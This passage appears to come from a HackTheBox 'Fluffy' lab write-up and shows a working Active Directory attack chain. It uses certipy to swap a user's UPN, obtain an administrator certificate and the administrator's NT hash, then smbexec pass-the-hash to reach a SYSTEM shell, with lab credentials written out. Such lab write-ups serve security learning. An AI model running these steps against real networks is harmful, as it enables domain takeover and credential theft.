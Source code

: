 ```shell
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'ca_svc' -user 'ca_svc' update
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc
[*] Successfully updated 'ca_svc'
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$
```
after successfull exploitation, we successfully got the NTLM hash of the `administrator` user.
now we can access the domain controller as administrator using `smbexec` and grab the user and root flags
```shell
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ smbexec.py fluffy.htb/administrator@10.10.11.69 -hashes aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```










